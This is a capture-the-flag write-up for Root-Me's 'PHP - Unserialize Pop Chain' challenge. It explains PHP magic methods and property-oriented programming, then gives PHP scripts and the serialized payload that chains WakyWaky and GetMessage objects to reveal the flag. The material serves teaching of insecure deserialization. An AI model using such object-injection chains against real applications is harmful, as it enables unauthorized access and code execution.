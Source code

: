 ```yaml
---
title: "Exploiting PHP Unserialize POP Chains | Rootme"
date: 2024-12-20
categories: [CHALLENGES, PHP - Unserialize Pop Chain]
tags: [CHALLENGES, CTF] 
---
```

## Introduction
[PHP - Unserialize Pop Chain](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)  is a very nice web challenge designed to understand the concept of **magic method chaining** in the deserialization process.

As we know that [serialization](https://hazelcast.com/foundations/distributed-computing/serialization/) is the process of converting a data object or a combination of code into a series of bytes, preserving the object's state in an easily transmittable form. Deserialization is the reverse operation of serialization.

## What is the Magic Methods?
[Magic methods](https://www.php.net/manual/en/language.oop5.magic.php) are special methods which override PHP's default's action when certain actions are performed on an object. All methods names starting with __ are reserved by PHP.

One of the most popular magic methods is `__construct()` which is called when the object created. 

![IMG1](https://github.com/user-attachments/assets/5b91a228-bcdd-4b05-b29a-095970437807)

## What is POP chain? 
In normal scenario of exploiting insecure deserialization vulnerability, an attacker controls a serialized object that is passed into `unserialize()`. This will then allow her the opportunity to hijack the execution flow of the application, by controlling the values passed into magic methods.

The problem is: What if the declared magic methods does not contain any usefull code to perform my attack?
Now the exploitation of unsafe deserialization is useless, right?

Unfortunately, if the magic method themselves are not exploitable, an attacker could still control the execution flow using something called POP chains.

POP stands for `Property Oriented Programming` which means that the attacker can control all of the properties of the deserialized object. POP chains work by chaining code "gadgets" together to achieve the attacker’s ultimate goal. These "gadgets" are code snippets borrowed from the codebase that the attacker uses to further her goal.

## Challenge source code analysis

![IMG2](https://github.com/user-attachments/assets/64700220-7dbe-4aa9-a1fc-05d71edc0787)

The script defines two PHP classes which are `GetMessage` and `WakyWaky`.

1) GetMessage class:
  - Constructor `__construct`: Initializes the object with the `receive` parameter. If the value is "HelloBooooooy", the  script terminates with a message.
  - `__toString` Method: Returns the value of the receive property as a string.
  - Destructor `__destruct`: Validates the receive property. If it’s not "HelloBooooooy", the script terminates. Otherwise, if `$getflag` is true, it includes a `flag.php` file and reveals the flag.

2) WakyWaky class:
  - `__wakeup` Method: Executes when the object is unserialized, echoing the msg property.
  - `__toString` Method: Sets `$getflag` to true and creates a new GetMessage object, returning its receive value.

3) If a data parameter is provided via a POST request, it’s unserialized.

## Spotting the bug 
According to [php documentation](https://www.php.net/manual/en/language.oop5.magic.php) this magic methods works in php as follows:
- `__construct()`: Called when an object is created.
- `__destruct()`: Called when an object is deleted.
- `__wakeup()`: Called when an object is unserialized.
- `__toString()`: Called when an object is converted to a string.

Our goal is to read the flag and to do that we need to set the value of the getflag to true. We cannot directly create a serialized object from the `GetMessage` class because the constructor takes a parameter and checks if its value is equal to "HelloBooooooy". If it is, the script will terminate immediately, and the `__destruct()` method will not be called. On the other hand, if we change the value from "HelloBooooooy" to "Hello", the constructor will save it in the `receive` property, and the `__destruct()` method will be called. However, when it checks the value, the script will terminate again using the `die()` function. Both approaches will fail to read the flag.

I generate this script to create a serialized data for testing: 
```php
<?php

class GetMessage {
    function __construct($receive) {
        if ($receive === "HelloBooooooy") {
            die("[FRIEND]: Ahahah you get fooled by my security my friend!<br>");
        } else {
            $this->receive = $receive;
        }
    }

    function __toString() {
        return $this->receive;
    }

    function __destruct() {
        global $getflag;
        if ($this->receive !== "HelloBooooooy") {
            die("[FRIEND]: Hm.. you don't seem to be the friend I was waiting for..<br>");
        } else {
            if ($getflag) {
                include("flag.php");
                echo "[FRIEND]: Oh ! Hi! Let me show you my secret: ".$FLAG."<br>";
            }
        }
    }
}
$obj = new GetMessage("Hello");
// O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}
echo serialize($obj);
```
Trying: `O:10:"GetMessage":1:{s:7:"receive";s:5:"Hello";}`
![IMG3](https://github.com/user-attachments/assets/44fa326a-c5f9-487a-bfd4-a6a12b764318)

Now, our entry point is the WakyWaky class to set the value of getflag to true. If I create a serialized object from this class and send it to the web app, it will unserialize the object and automatically call the `__wakeup()` method, which echoes the msg property of the object.

What if we could now modify the `msg` property to control the execution flow of the code and call the `__toString()` method?

## Chaining of methods and Exploitation
We can create an object using the `WakyWaky` class, where the value of the `msg` property is an object of the same class. The only way to make the code call the `__toString()` method is to make the msg property of this object another object from the same class. This is because the `WakyWaky` class echoes the `msg`, and `__toString()` is called when the object is treated as a string.

Working of `__toString()`:

![IMG4](https://github.com/user-attachments/assets/cd4488d6-1a4e-49cd-8b22-cd5b37887e72)

Let's try to create the payload: 

```php
<?php 

class WakyWaky {
    public $msg;

    public function __construct($msg) {
        $this->msg = $msg;
    }
}

$Innerobj = new WakyWaky("Hello");  
$OuterObj = new WakyWaky($Innerobj);

// O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";s:5:"Hello";}}
echo serialize($OuterObj); 
```
![IMG5](https://github.com/user-attachments/assets/11ebffe1-3aa9-4feb-9a9e-06f0d0d894d8)

That's great, the `__toString()` called to modify the value of getflag and create an object from the `GetMessage` with `msg` of inner object which is "Hello".
The constructor save the Hello word in `receive` property while executing else statment and then the destruct method called which it triggerd that the `receive` is not equal "HelloBooooooy" and print "[FRIEND]: Hm.. you don't seem to be the friend I was waiting for.." 

Now we need to find a way to bypass these if conditions. As I mentioned before that changing the value of `recieve` will not solve the challenge, The only way to solve is to make the input that passed to the constructor is object from the `GetMessage` class. The two conditions in constructor and destructor methodes will be failed to compare between `object` and `string`, strict comparison check both variables have the same type and the same value.

The Final Exploit: 

```php
<?php

$getflag = false;

class GetMessage {
    public $receive;

    public function __construct() {
        $this->receive = "HelloBooooooy";
    }
}

class WakyWaky {
    public $msg;

    public function __construct($msg) {
        $this->msg = $msg;
    }
}

$GetMessage_obj = new GetMessage();  
$serializedGetMessage_obj = serialize($GetMessage_obj);  

$InnerObj = new WakyWaky($GetMessage_obj);  
$serializedInnerObj = serialize($InnerObj);  

$OuterObj = new WakyWaky($InnerObj);  
// O:8:"WakyWaky":1:{s:3:"msg";O:8:"WakyWaky":1:{s:3:"msg";O:10:"GetMessage":1:{s:7:"receive";s:13:"HelloBooooooy";}}}
echo serialize($OuterObj); 

```

